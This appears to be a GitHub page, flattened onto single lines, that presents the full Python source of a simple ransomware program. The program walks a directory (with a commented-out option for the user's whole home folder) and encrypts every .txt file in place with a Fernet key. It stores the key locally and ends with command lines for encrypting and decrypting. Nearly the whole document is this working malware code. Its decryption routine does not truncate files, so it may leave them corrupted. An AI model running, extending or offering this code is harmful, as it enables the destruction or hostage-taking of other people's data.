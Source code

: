 # Ransomeware-in-python
import os from os.path import expanduser from cryptography.fernet import Fernet  class Ransomware(object):     def __init__(self):         self.key = None                 # Key to encrypt the files         self.cryptor = None             # Object that does the actual encryption         self.file_ext_targets = ['txt'] # Type of files, you're going to encrypt       def generate_key(self):         # Generate the initial key, to unlock files, and pass it to the crypter         # for verifying right key for decryption         self.key = Fernet.generate_key()         self.cryptor = Fernet(self.key)      def read_key(self, keyfile_name):         # Read the key for decryption         with open(keyfile_name, "rb") as f:             self.key = f.read()             self.cryptor = Fernet(self.key)          def write_key(self, keyfile_name):         # Saves the decryption key to file         print(self.key)          with open(keyfile_name, "wb") as f:             f.write(self.key)       def crypt_root(self, root_dir, encrypted=False):         # Recursively encrypt or decrypt files from root directory          for root, _, files in os.walk(root_dir):             for f in files:                 abs_file_path = os.path.join(root, f)                 # Pass if no target files is present in current folder                 if not abs_file_path.split(".")[-1] in self.file_ext_targets:                     continue                 self.crypt_file(abs_file_path, encrypted=encrypted)           def crypt_file(self, file_path, encrypted=False):         # Encrypt &amp; Decrypt function         with open(file_path, "rb+") as f:             _data = f.read()             if not encrypted:                 # Encrypt                 print()                 print(f"File contents before encryption: {_data}")                 data = self.cryptor.encrypt(_data)                 print(f"File contents after encryption: {data}")             else:                 # Decrypt                 data = self.cryptor.decrypt(_data)                 print(f"File content before encryption: {data}")             f.seek(0)             f.write(data)   if __name__ == "__main__":     # sys_root = expanduser("~")    # Use to encrypt every folder from root     local_root = "."              # Use to encrypt specific folder      import argparse     parser = argparse.ArgumentParser()     parser.add_argument("--action", required=True)     parser.add_argument("--keyfile")      args = parser.parse_args()     action = args.action.lower()     keyfile = args.keyfile      ransom = Ransomware()      if action == "decrypt":         if keyfile is None:             print("Path to keyfile must be specified after --keyfile for decryption")         else:             ransom.read_key(keyfile)             ransom.crypt_root(local_root, encrypted=True)     elif action == "encrypt":         ransom.generate_key()         ransom.write_key("keyfile")         ransom.crypt_root(local_root)  # TO ENCRYPT # python3 ransom.py --action encrypt  # TO DECRYPT # python3 ransom.py --action decrypt --keyfile ./path
